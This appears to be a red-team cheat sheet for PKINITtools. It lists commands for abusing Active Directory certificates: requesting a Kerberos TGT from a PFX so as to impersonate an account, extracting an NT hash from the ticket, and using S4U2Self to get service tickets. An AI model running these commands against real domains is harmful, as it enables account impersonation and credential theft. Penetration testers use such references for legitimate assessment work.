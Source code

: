 # PKINITtools

% adcs, certificate, pki, windows, Active directory, template, shadow credential


## Request a TGT using a PFX
#plateform/linux #target/remote #cat/RECON
error "KDC has no support for PADATA type (pre-authentication data)" means DC do not support PKINIT because their certificates do not have the Smart Card Logon EKU

use PassTheCert.py to attack ldap with a cert but no tgt can be obtained
```
gettgtpkinit -cert-pfx <pfx_file_> -pfx-pass <pfx_password|jubeaz> -dc-ip <dc_ip> <domain>/<accountToImpersonate> <ccache_path>
```

## hash from TGT and AS REP key
#plateform/linux #target/remote #cat/RECON
```
export KRB5CCNAME=<ccache> && getnthash <domain>/<ComputerAccount> -key <key>
```

## silver ticket using a certificate
#plateform/linux #target/remote #cat/RECON
```
gets4uticket 
```
Uses Kerberos S4U2Self to request a service ticket that is valid on the host for which you've obtained a certificate